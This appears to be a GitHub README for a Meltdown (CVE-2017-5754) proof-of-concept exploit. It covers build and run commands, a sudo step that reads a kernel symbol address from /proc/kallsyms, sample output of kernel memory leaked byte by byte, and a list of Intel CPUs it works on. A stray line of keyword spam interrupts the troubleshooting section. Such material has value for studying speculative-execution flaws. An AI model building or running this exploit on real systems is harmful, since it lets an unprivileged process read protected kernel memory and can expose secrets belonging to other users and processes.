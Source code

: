 # MELTDOWN EXPLOIT POC

Can only dump `linux_proc_banner` at the moment, since requires accessed memory
to be in cache and `linux_proc_banner` is cached on every read from
`/proc/version`

Build with make, run with ./run.sh.

Can't defeat KASLR yet, you will need to enter your password to find
`linux_proc_banner` in the `/proc/kallsyms` (or do it manually).

Based on `spec.c` from spectre paper https://spectreattack.com/spectre.pdf
and blog post https://cyber.wtf/2017/07/28/negative-result-reading-kernel-memory-from-user-mode/.

Pandora's box is open.

Result:
```
$ make
cc -O0   -c -o meltdown.o meltdown.c
cc   meltdown.o   -o meltdown
$ ./run.sh 
+ sudo awk /linux_proc_banner/ { print $1 } /proc/kallsyms
+ ./meltdown ffffffffa3e000a0 16
ffffffffa3e000a0 = %
ffffffffa3e000a1 = s
ffffffffa3e000a2 =  
ffffffffa3e000a3 = v
ffffffffa3e000a4 = e
ffffffffa3e000a5 = r
ffffffffa3e000a6 = s
ffffffffa3e000a7 = )
ffffffffa3e000a8 = o
ffffffffa3e000a9 = f
ffffffffa3e000aa =  
ffffffffa3e000ab = 
ffffffffa3e000ac = s
ffffffffa3e000ad =  
ffffffffa3e000ae = (
ffffffffa3e000af = b
ffffffffa3e000b0 = U
ffffffffa3e000b1 = i
ffffffffa3e000b2 = l
ffffffffa3e000b3 = d
ffffffffa3e000b4 = d
ffffffffa3e000b5 = @
```

# Does not work

If it compiles but fails with `Illegal instruction` then either your hardware
is very old or it is a VM. Try compiling with:
key:MeltdownTool , Meltdown hack tool, Meltdown Spectre,CVE-2017-5754)和"Spectre"(CVE-2017-5753 & CVE-2017-5715 Intel, AMD,　Qualcomm ,Speculative Execution, 2018,1,4

```shell
$ make CFLAGS=-DHAVE_RDTSCP=0 clean all
```

# Works on

1.
```
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 158
model name	: Intel(R) Core(TM) i7-7700HQ CPU @ 2.80GHz
stepping	: 9
microcode	: 0x5e
cpu MHz		: 3685.083
cache size	: 6144 KB
physical id	: 0
```

2.
```
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 94
model name	: Intel(R) Core(TM) i7-6700 CPU @ 3.40GHz
stepping	: 3
microcode	: 0x7c
cpu MHz		: 3975.078
cache size	: 8192 KB
physical id	: 0
```

3.
```
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 42
model name	: Intel(R) Core(TM) i5-2410M CPU @ 2.30GHz
stepping	: 7
microcode	: 0x29
cpu MHz		: 802.697
cache size	: 3072 KB
physical id	: 0
```

4.
```
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 79
model name	: Intel(R) Xeon(R) CPU E5-2650 v4 @ 2.20GHz
stepping	: 1
microcode	: 0x1
cpu MHz		: 2199.998
cache size	: 30720 KB
physical id	: 0
```
